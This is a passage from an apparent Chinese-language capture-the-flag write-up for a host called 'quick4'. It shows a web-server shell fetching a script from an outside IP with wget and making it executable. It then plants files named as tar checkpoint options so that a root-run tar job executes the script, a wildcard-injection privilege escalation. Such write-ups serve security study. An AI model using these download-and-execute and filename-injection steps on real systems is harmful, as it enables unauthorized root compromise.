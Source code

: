```bash
www-data@quick4:/$ cd /var/www/html/
cd /var/www/html/
www-data@quick4:/var/www/html$ wget http://10.161.181.188:8888/fuck.py
wget http://10.161.181.188:8888/fuck.py
--2024-03-16 20:17:49--  http://10.161.181.188:8888/fuck.py
Connecting to 10.161.181.188:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 228 [text/x-python]
Saving to: ‘fuck.py’

fuck.py             100%[===================>]     228  --.-KB/s    in 0s      

2024-03-16 20:17:49 (39.6 MB/s) - ‘fuck.py’ saved [228/228]

www-data@quick4:/var/www/html$ ls -la
ls -la
total 148
drwxr-xr-x 14 www-data www-data  4096 Mar 16 20:17 .
drwxr-xr-x  3 root     root      4096 Jan 21 14:02 ..
drwxr-xr-x  2 www-data www-data  4096 Feb  6 13:55 .well-known
-rw-r--r--  1 www-data www-data   871 Jan 21 20:24 404.css
-rw-r--r--  1 www-data www-data  5014 Feb  5 14:36 404.html
drwxr-xr-x  3 root     root      4096 Feb  8 21:07 careers
drwxr-xr-x  2 www-data www-data  4096 Jan 30 21:29 css
drwxr-xr-x  7 www-data www-data  4096 Feb 12 16:05 customer
drwxr-xr-x  8 root     root      4096 Feb  9 21:48 employee
drwxr-xr-x  2 www-data www-data  4096 Jan 30 21:29 fonts
-rw-rw-rw-  1 www-data www-data   228 Mar 16 12:15 fuck.py
drwxr-xr-x  5 www-data www-data  4096 Jan 22 19:59 images
drwxr-xr-x  2 root     root      4096 Jan 30 21:29 img
-rw-r--r--  1 root     root     51414 Jan 30 22:17 index.html
drwxr-xr-x  2 www-data www-data  4096 Jan 30 21:29 js
drwxr-xr-x  9 root     root      4096 Jan 30 21:29 lib
drwxr-xr-x  2 www-data www-data 20480 Jan 22 20:00 modules
-rw-r--r--  1 root     root        32 Feb  6 11:34 robots.txt
drwxr-xr-x  3 root     root      4096 Jan 30 21:29 scss
-rw-r--r--  1 www-data www-data  4038 Dec  4 08:39 styles.css
www-data@quick4:/var/www/html$ chmod +x fuck.py
chmod +x fuck.py
```

然后创建检查点进行监察，利用 tar 的特性，当 tar 到达每个文件的结束时，执行指定的操作，一直等就行了

> https://gtfobins.github.io/gtfobins/tar/#sudo

```bash
www-data@quick4:/var/www/html$ touch /var/www/html/--checkpoint=1
touch /var/www/html/--checkpoint=1
www-data@quick4:/var/www/html$ touch /var/www/html/--checkpoint-action=exec=python3 fuck.py
<r/www/html/--checkpoint-action=exec=python3 fuck.py
www-data@quick4:/var/www/html$ ls -la fuck.py
ls -la fuck.py
-rwxrwxrwx 1 www-data www-data 228 Mar 16 20:22 fuck.py
```
